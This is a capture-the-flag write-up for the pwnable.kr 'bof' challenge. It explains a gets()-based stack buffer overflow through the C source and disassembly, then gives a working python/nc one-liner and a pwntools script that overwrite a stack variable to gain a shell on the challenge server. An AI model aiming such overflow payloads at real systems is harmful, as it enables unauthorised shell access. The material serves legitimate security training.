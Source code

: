 # bof

pwnable.kr attribution: this challenge comes from <https://pwnable.kr>, and I may reproduce parts of the challenge as visible from there for easier reference.

This is the first level where we don't use `ssh`.

```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```

Downloading `bof.c` gives us

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Our goal (as alluded to by the title and hint) is to exploit this using a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) attack. Note the use of `gets` in the file. `gets` is deprecated and insecure, as the `man` page for `gets(3)` says on my computer:

```
DESCRIPTION
       Never use this function.

       gets()  reads  a  line from stdin into the buffer pointed to by s until
       either a terminating newline or EOF, which it replaces with a null byte
       ('\0').  No check for buffer overrun is performed (see BUGS below).
```

```
BUGS
       Never use gets().  Because it is impossible to tell without knowing the
       data in advance how many characters gets() will read, and because gets()
       will continue to store characters  past  the  end  of the buffer, it is
       extremely dangerous to use.  It has been used to break computer
       security.  Use fgets() instead.

       For more information, see CWE-242 (aka "Use of Inherently Dangerous
       Function") at http://cwe.mitre.org/data/definitions/242.html
```

Now, let's examine the executable to figure out more about the stack layout.

```
$ wget "http://pwnable.kr/bin/bof"  
$ file bof
bof: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ed643dfe8d026b7238d3033b0d0bcc499504f273, not stripped
```

We have a 32-bit executable, so `key` should appear on the stack right above the return address (on Linux for a 64-bit executable, we'd expect key to be in `%edi`). Looking at the disassembly, we get

```
$ objdump --disassemble=func bof 

bof:     file format elf32-i386


Disassembly of section .init:

Disassembly of section .plt:

Disassembly of section .text:

0000062c <func>:
 62c:   55                      push   %ebp
 62d:   89 e5                   mov    %esp,%ebp
 62f:   83 ec 48                sub    $0x48,%esp
 632:   65 a1 14 00 00 00       mov    %gs:0x14,%eax
 638:   89 45 f4                mov    %eax,-0xc(%ebp)
 63b:   31 c0                   xor    %eax,%eax
 63d:   c7 04 24 8c 07 00 00    movl   $0x78c,(%esp)
 644:   e8 fc ff ff ff          call   645 <func+0x19>
 649:   8d 45 d4                lea    -0x2c(%ebp),%eax
 64c:   89 04 24                mov    %eax,(%esp)
 64f:   e8 fc ff ff ff          call   650 <func+0x24>
 654:   81 7d 08 be ba fe ca    cmpl   $0xcafebabe,0x8(%ebp)
 65b:   75 0e                   jne    66b <func+0x3f>
 65d:   c7 04 24 9b 07 00 00    movl   $0x79b,(%esp)
 664:   e8 fc ff ff ff          call   665 <func+0x39>
 669:   eb 0c                   jmp    677 <func+0x4b>
 66b:   c7 04 24 a3 07 00 00    movl   $0x7a3,(%esp)
 672:   e8 fc ff ff ff          call   673 <func+0x47>
 677:   8b 45 f4                mov    -0xc(%ebp),%eax
 67a:   65 33 05 14 00 00 00    xor    %gs:0x14,%eax
 681:   74 05                   je     688 <func+0x5c>
 683:   e8 fc ff ff ff          call   684 <func+0x58>
 688:   c9                      leave
 689:   c3                      ret
```

The important parts of this for the stack layout are

```
 62c:   55                      push   %ebp
 62d:   89 e5                   mov    %esp,%ebp
 62f:   83 ec 48                sub    $0x48,%esp

 649:   8d 45 d4                lea    -0x2c(%ebp),%eax
 64c:   89 04 24                mov    %eax,(%esp)
 64f:   e8 fc ff ff ff          call   650 <func+0x24>

 654:   81 7d 08 be ba fe ca    cmpl   $0xcafebabe,0x8(%ebp)
```

We know that `%ebp` stores the base pointer for the stack frame (approximately `%esp` on entry). The `lea` tells us that `buf` stats `0x2c` below `%ebp`, and the `cmpl` tells us that `key` is at `0x8` above `%ebp`. So, on `stdin`, we need to put 0x8 + 0x2c = 0x34 (52) of any character followed by `0xcafebabe` (in little-endian order). There are many ways to express this, but a quick "one liner" is

`$ (python3 -c 'import sys; sys.stdout.buffer.write(b"0" * 0x34 + 0xcafebabe.to_bytes(4, "little") + b"\n")'; cat) | nc pwnable.kr 9000`

Some notes:

* We use the `-c` flag of python to run the command we specify without launching a REPL or writing a script.
* We write using `bytes` instead of a string, so we can be very sure of the number of bytes written/encoding used (note that we use `sys.stdout.buffer.write` instead of `print`)
* We use the subshell with `python` and `cat` so that we can interact with the program after the exploit has run (when we should be in the shell (note the call to `system("/bin/sh")`).
* We include a trailing newline so that the `gets` call terminates.

An equivalent script using [`pwntools`](https://github.com/Gallopsled/pwntools) could look something like

```python
from pwn import *
context(arch='i386', os='linux')

r = remote('pwnable.kr', 9000)
r.sendline(b"0" * 0x34 + p32(0xcafebabe))
r.interactive()
```

Then, we can find the flag by interacting with the shell (note using interactive mode both gives us a shell we can use to look around in and avoids the problem where we'd otherwise have to make sure part of the exploit goes to the `gets` and the other part happens after the `system`),

```
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
```

To expand upon later:

* Disassembly/why look at executable and source code
* Disassemble vs decompile
* Manual decomp
* Full stack frame
* What `%gs:0x14` is/stack canaries
* TCP/sockets/pwntools

